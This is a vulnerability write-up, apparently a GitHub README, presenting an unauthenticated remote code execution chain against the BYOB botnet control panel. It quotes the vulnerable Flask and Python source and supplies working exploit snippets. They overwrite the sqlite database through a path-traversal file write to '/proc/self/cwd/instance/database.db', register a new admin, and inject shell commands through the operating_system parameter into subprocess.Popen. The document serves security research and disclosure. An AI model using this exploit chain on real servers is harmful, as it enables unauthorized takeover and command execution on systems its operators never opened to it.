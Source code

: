 ### BYOB (Build Your Own Botnet) Unauthenticated RCE

This exploit works by spoofing an agent exfiltrating a file to overwrite the sqlite database and bypass authentication.  After authentication is bypassed, a command injection vulnerability is exploited in the payload builder page.

Summary
BYOB (Build Your Own Botnet) is an open-source post-exploitation framework for students, researchers and developers with support for Linux, Windows and OSX systems. With approximately 9,000 stars, it ranks among the most popular post exploitation frameworks on GitHub. While auditing the codebase, I was able to discover an unauthenticated arbitrary file write in an exfiltration endpoint allowing attackers to overwrite the sqlite database on disk and bypass authentication. With authenticated access to the botnet panel, I discovered a command injection in the payload generation page. By chaining these vulnerabilities, remote unauthenticated attackers are able to take full control over the botnet server.

Arbitrary File Write via agent exfiltration endpoint
Reminiscent of the Skywalker in vulnerability in Empire C2 disclosed by @zeroSteiner and re-exploited by AceResponder, BYOB saves exfiltrated files from agents in an insecure manner, allowing attackers to write files anywhere on the filesystem the user who is running the application has the permission to write to. Specifically, BYOB makes use of the os.path.join function, which is well known to create scenarios where directory traversal is possible.

Lets take a look at the code (which I have trimmed down for brevity) for the /api/file/add route, which exists in web-gui/buildyourownbotnet/api/files/routes.py. We can see this route accepts unauthenticated POST requests, and accepts a filename parameter. This filename parameter is passed as the final parameter in the output_path variable, allowing us to take full control over the output_path variable irregardless of previous parameters by passing a full path (ex: filename=/tmp/win.txt). Futhermore, the route accepts a data parameter, which is to be base64-decoded and written to output_path. This gives way to our arbitrary file write.

@files.route("/api/file/add", methods=["POST"])
def file_add():
	"""Upload new exfilrated file."""
	b64_data = request.form.get('data')
	...
	filename = request.form.get('filename')

	# decode any base64 values
	try:
		data = base64.b64decode(b64_data)
	except:
		if b64_data.startswith('_b64'):
			data = base64.b64decode(b64_data[6:]).decode('ascii')
		else:
			print('/api/file/add error: invalid data ' + str(b64_data))
			return
	...
	
	output_path = os.path.join(os.getcwd(), 'buildyourownbotnet/output', owner, 'files', filename)

	# add exfiltrated file to database
	file_dao.add_user_file(owner, filename, session, module)

	# save exfiltrated file to user directory
	with open(output_path, 'wb') as fp:
		fp.write(data)

	return filename
We need to use this arbitrary file write to RCE now. There are a lot of ways to do this but ideally:
- Our path does not rely on the application running with elevated/root permissions (writing to /etc/cron.d)
- Our path relies on system event (login->.bashrc, overwriting app source files and waiting for reload)
- Our path requires no end user interation (adding an XSS payload to an application .js file)

The best way I found to achieve this is to overwrite the sqlite3 database that exists on file to one with empty tables. This resets the application to its initial installation state, and allows us to register an admin user as part of the setup process. We make use of procfs to determine the working directory of the application, from which we can find the location of the database (/proc/self/cwd/instance/database.db). The downside of doing this is the botnets owners will probably notice not being able to login.

This is what overwriting the database and registering a new user looks like in python code:

with open('database.db', 'rb') as f:
	bindata = f.read()
data = base64.b64encode(bindata).decode('ascii')
json_data = {'data': data, 'filename': '/proc/self/cwd/instance/database.db', 'type': "txt", 'owner': "admin", "module": "icloud", "session": "lol"}
headers = {
	'Content-Length': str(len(json.dumps(json_data)))
}
print("[***] Uploading database")
upload_response = session.post(f"{url}/api/file/add", data=json_data, headers=headers)
print(upload_response.status_code)


headers = {
	'User-Agent': user_agent,
	'Content-Type': 'application/x-www-form-urlencoded',
}
data = {
	'csrf_token': register_csrf,
	'username': username,
	'password': password,
	'confirm_password': password,
	'submit': 'Sign Up'
}
print("[***] Registering user   ")
regsiter_response = s.post(f'{url}/register', headers=headers, data=data)
print(regsiter_response.status_code)
Command Injection via payload generation page
The payload generation page accepts a format, operating system and architecture parameter.

meow1

This page will POST to the /api/payload/generate page, which will accept the payloda_format, operating_system, and architecture parameters. These parameters will be put into an options directory and passed to the client.py main() function.

@payload.route("/api/payload/generate", methods=["POST"])
@login_required
def payload_generate():
	"""Generates custom client scripts."""

	# required fields
	payload_format = request.form.get('format')
	operating_system = request.form.get('operating_system')
	architecture = request.form.get('architecture')

	...

	# write dropper to user's output directory and return client creation page
	options = {
		'encrypt': encrypt,
		'compress': compress, 
		'freeze': freeze, 
		'gui': 1, 
		'owner': current_user.username, 
		'operating_system': operating_system, 
		'architecture': architecture
	}

	try:
		outfile = client.main('', '', '', '', '', '', **options)

		...
In the main function, these options are processed and passed to the _dropper() function.

# main
def main(*args, **kwargs):
    """
    Run the generator

    """

    if not kwargs:
	...
    else:

        options = collections.namedtuple('Options', ['host','port','modules','name','icon','pastebin','encrypt','compress','freeze','gui','owner','operating_system','architecture'])(*args, **kwargs)

    ...
    dropper = _dropper(options, var=var, key=key, modules=modules, imports=imports, hidden=hidden, url=stager)

    os.chdir('..')

    return dropper
The _dropper function, which is responsible for generating the dropper, constructs the name variable which is the output path for our generated droppers. We notice that options.operating_system and options.architecture are used in the construction of the name variable. If the name variable ever gets passed to a subprocess.Popen call, we will be able to inject commands. We can see that if options.freeze is set to true (which is the case when you request to generate a binary dropper rather than a .py dropper), the generators.freeze() function will be called.

def _dropper(options, **kwargs):
    # add os/arch info to filename if freezing
    if options.freeze:
        name = 'byob_{operating_system}_{architecture}_{var}.py'.format(operating_system=options.operating_system, architecture=options.architecture, var=kwargs['var']) if not options.name else options.name
    else:
        name = 'byob_{var}.py'.format(var=kwargs['var'])

	...

    name = os.path.join(output_dir, name)

	...

    # cross-compile executable for the specified os/arch using pyinstaller docker containers
    if options.freeze:
        util.display('\tCompiling executable...\n', color='reset', style='normal', end=' ')
        name = generators.freeze(name, icon=options.icon, hidden=kwargs['hidden'], owner=options.owner, operating_system=options.operating_system, architecture=options.architecture)
        util.display('({:,} bytes saved to file: {})\n'.format(len(open(name, 'rb').read()), name))
    return name
In the freeze() function, the operating_system parameter and architecture parameter are passed directly into subprocess.Popen(), without any sanatization or validation whatsoever.

def freeze(filename, icon=None, hidden=None, owner=None, operating_system=None, architecture=None):
    """
    Compile a Python file into a standalone executable
    binary with a built-in Python interpreter

    `Required`
    :param str icon:        icon image filename
    :param str filename:    target filename

    Returns output filename as a string

    """
	...

    # cross-compile executable for the specified os/arch using pyinstaller docker containers
    process = subprocess.Popen('docker run -v "$(pwd):/src/" {docker_container}'.format(
                                src_path=os.path.dirname(path), 
                                docker_container=operating_system + '-' + architecture), 
                                0, None, subprocess.PIPE, subprocess.PIPE, subprocess.PIPE, 
                                cwd=path, 
                                shell=True)
Exploiting this in python code is quite trivial. This completes our unauthenticated RCE chain!

headers = {
	'User-Agent': user_agent,
	'Content-Type': 'application/x-www-form-urlencoded',
}
data = f'format=exe&operating_system=nix$({command})&architecture=amd64'
try:
	# Authenticated session
	s.post(f'{url}/api/payload/generate', headers=headers, data=data, stream=True, timeout=0.0000000000001)
except requests.exceptions.ReadTimeout:
	pass